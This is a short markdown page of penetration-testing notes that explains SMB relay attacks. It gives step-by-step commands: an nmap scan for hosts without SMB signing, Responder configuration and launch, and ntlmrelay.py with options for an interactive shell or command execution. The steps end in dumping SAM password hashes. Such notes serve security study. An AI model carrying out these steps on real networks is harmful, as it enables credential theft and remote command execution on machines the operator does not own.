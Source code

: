 # V. SMB Relay Attack Overview

## What is a SMB Relay Attack?

In an SMB relay attack, an attacker intercepts SMB traffic between a client and a server and then relays that traffic to another target system. The attacker typically acts as a man-in-the-middle, capturing authentication credentials or other sensitive information passed between the client and the server.

## Requirements:

- SMB Signing must be disabled or not enforced on the target.
- Relayed user credentials must be admin on machine for any real value.

## How to perform a SMB Relay Attack:

- Identify hosts without SMB Signing
    - Can be done with nmap using the following command : `nmap --script=smb2-security-mode.nse -p <IP ADDRESS>`
- Edit the `Responder.conf` file located at `/etc/responder/Responder.conf` with a text editor, and make the following changes:
    - Set `SMB = Off` and `HTTP = Off`
- Run Responder using `sudo responder -I tun0 -dwP`
- Setup the relay using ntlmrelay using `sudo ntlmrelay.py -tf targets.txt -smb2support` (can add `-i` at the end for an interactive shell, or use `-c` to run a command)
- Make an event occur on the target machine.
- Get SAM hashes